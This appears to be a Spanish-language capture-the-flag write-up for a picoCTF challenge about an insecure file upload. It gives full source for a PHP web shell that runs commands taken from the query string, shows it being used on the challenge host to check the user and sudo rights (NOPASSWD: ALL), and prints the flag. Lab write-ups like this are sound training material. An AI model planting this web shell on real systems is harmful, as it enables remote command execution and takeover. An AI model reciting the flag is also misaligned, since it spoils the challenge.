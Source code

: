 #### Descripción

Un desarrollador ha agregado la funcionalidad de carga de imágenes de perfil a un sitio web. Sin embargo, la implementación es defectuosa y presenta una oportunidad para usted. Tu misión, si decides aceptarla, es navegar hasta el lugar provisto. página web y localice el área de carga de archivos. Su objetivo final es encontrar el hidden ubicado en el directorio.`/root`

Habrá detalles adicionales disponibles después de lanzar la instancia de desafío.

### Solución
- En primer lugar, vaya a la instancia y verá que existe la vulnerabilidad de carga de archivos
- Por lo tanto, se puede cargar cualquier tipo de script

1. Vulnerabilidad de carga de archivos

- Luego hice este shell php y lo subí al servidor:

<?php  
if(isset($_GET['cmd'])){  
    echo "<pre>";  
    $cmd = $_GET['cmd'];  // Get command from the query string  
    system($cmd);         // Execute the command and display output  
    echo "</pre>";  
}  
?>

2. php Shell subido

- Luego, cualquier comando se puede ejecutar activando la ruta:  
    Punto final: **uploads/shell.php?cmd=**

http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=

- Vamos a comprobar el usuario actual:

http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=whoami

3. Usuario actual

- Ahora veamos los privilegios para el usuario actual:

3. Sin contraseña de root

Matching Defaults entries for www-data on challenge:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User www-data may run the following commands on challenge:  
    (ALL) NOPASSWD: ALL

(ALL) NOPASSWD: ALL

- Por lo tanto, no se necesitará ninguna contraseña para acceder a ningún usuario, así como a la root.
- Ahora vamos a obtener la bandera como usuario root:

### Bandera
`picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}`
